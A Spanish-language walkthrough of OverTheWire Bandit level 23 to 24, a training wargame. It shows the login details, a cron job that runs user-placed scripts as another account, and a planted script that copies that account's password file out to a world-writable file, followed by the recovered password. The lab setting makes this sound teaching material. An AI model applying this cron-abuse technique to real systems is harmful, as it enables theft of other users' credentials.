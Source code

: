 ----
### OBJETIVO 
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---
### DATOS DE ACCESO
	Servidor : ssh bandit23@bandit.labs.overthewire.org -p 2220
	Contraseña : QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

---
### SOLUCION

	bandit23@bandit:~$ ls -la /etc/cron.d/
		total 56
		drwxr-xr-x   2 root root  4096 Apr 23 18:05 .
		drwxr-xr-x 108 root root 12288 Aug 12 08:42 ..
		-rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit15_root
		-rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit17_root
		-rw-r--r--   1 root root   120 Apr 23 18:04 cronjob_bandit22
		-rw-r--r--   1 root root   122 Apr 23 18:04 cronjob_bandit23
		-rw-r--r--   1 root root   120 Apr 23 18:04 cronjob_bandit24
		-rw-r--r--   1 root root    62 Apr 23 18:04 cronjob_bandit25_root
		-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
		-rwx------   1 root root    52 Apr 23 18:05 otw-tmp-dir
		-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
		-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
	bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
		@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
		* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
	bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
		#!/bin/bash
		
		myname=$(whoami)
		
		cd /var/spool/$myname/foo || exit 1
		echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
		for i in * .*;
		do
		    if [ "$i" != "." -a "$i" != ".." ];
		    then
		        echo "Handling $i"
		        owner="$(stat --format "%U" ./$i)"
		        if [ "${owner}" = "bandit23" ]; then
		            timeout -s 9 60 ./$i
		        fi
		        rm -rf ./$i
		    fi
		done
	
	bandit23@bandit:~$ mkdir /tmp/ojtr/
	bandit23@bandit:~$ cd /tmp/ojtr
	bandit23@bandit:/tmp/ojtr$ echo "cat /etc/bandit_pass/bandit24 > /tmp/ojtr/password" > scriptojtr.sh
	bandit23@bandit:/tmp/ojtr$ cat scriptojtr.sh
		cat /etc/bandit_pass/bandit24 > /tmp/ojtr/password
	bandit23@bandit:/tmp/ojtr$ chmod +x scriptojtr.sh
	bandit23@bandit:/tmp/ojtr$ touch password
	bandit23@bandit:/tmp/ojtr$ chmod 666 password
	bandit23@bandit:/tmp/ojtr$ ls -la
		total 10564
		drwxrwxr-x    2 bandit23 bandit23     4096 Sep 20 02:25 .
		drwxrwx-wt 1710 root     root     10801152 Sep 20 02:25 ..
		-rw-rw-rw-    1 bandit23 bandit23        0 Sep 20 02:25 password
		-rwxrwxr-x    1 bandit23 bandit23       51 Sep 20 02:24 scriptojtr.sh
	bandit23@bandit:/tmp/ojtr$ cp scriptojtr.sh /var/spool/bandit24/foo
	bandit23@bandit:/tmp/ojtr$ ls -la
		total 10564
		drwxrwxr-x    2 bandit23 bandit23     4096 Sep 20 02:25 .
		drwxrwx-wt 1711 root     root     10801152 Sep 20 02:26 ..
		-rw-rw-rw-    1 bandit23 bandit23        0 Sep 20 02:25 password
		-rwxrwxr-x    1 bandit23 bandit23       51 Sep 20 02:24 scriptojtr.sh
	bandit23@bandit:/tmp/ojtr$ date
		Wed Sep 20 02:27:01 AM UTC 2023
	bandit23@bandit:/tmp/ojtr$ ls -la
		total 10568
		drwxrwxr-x    2 bandit23 bandit23     4096 Sep 20 02:25 .
		drwxrwx-wt 1711 root     root     10801152 Sep 20 02:27 ..
		-rw-rw-rw-    1 bandit23 bandit23       33 Sep 20 02:27 password
		-rwxrwxr-x    1 bandit23 bandit23       51 Sep 20 02:24 scriptojtr.sh
	bandit23@bandit:/tmp/ojtr$ cat password
	Contraseña : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

---
### NOTAS ADICCIONALES

Un shell script es un archivo de texto que contiene una secuencia de comandos y operaciones que el intérprete de comandos, o shell, puede ejecutar automáticamente. Un shell es una interfaz de usuario que permite interactuar con el sistema operativo mediante comandos de texto.

Existen varios tipos de shell en Linux, como Bash (Bourne Again Shell), CSH (C Shell) y KSH (Korn Shell). Sin embargo, Bash es el más utilizado y estandarizado en la mayoría de las distribuciones de Linux.

---
### REFERENCIAS
https://www.dongee.com/tutoriales/que-es-un-shell-script-en-linux-y-algunos-ejemplos-basicos-para-comenzar/